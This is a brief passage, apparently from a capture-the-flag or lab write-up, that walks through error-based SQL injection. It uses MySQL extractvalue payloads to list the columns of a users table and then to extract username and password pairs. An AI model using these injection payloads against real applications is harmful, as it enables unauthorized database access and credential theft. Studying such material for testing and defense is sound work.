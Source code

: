 Found an users table, let's check it out:

`admin' AND extractvalue(1,concat('~',(SELECT SUBSTRING(GROUP_CONCAT(column_name),1,30) FROM information_schema.columns WHERE table_name='users')))#`

![Pasted image 20250117160631.png](../../IMAGES/Pasted%20image%2020250117160631.png)

Right here, we can obtain the username and the password, let's use this payload:

`admin' AND extractvalue(1,concat('~',(SELECT SUBSTRING(GROUP_CONCAT(username,':',password),1,30) FROM users)))#`

![Pasted image 20250117160713.png](../../IMAGES/Pasted%20image%2020250117160713.png)

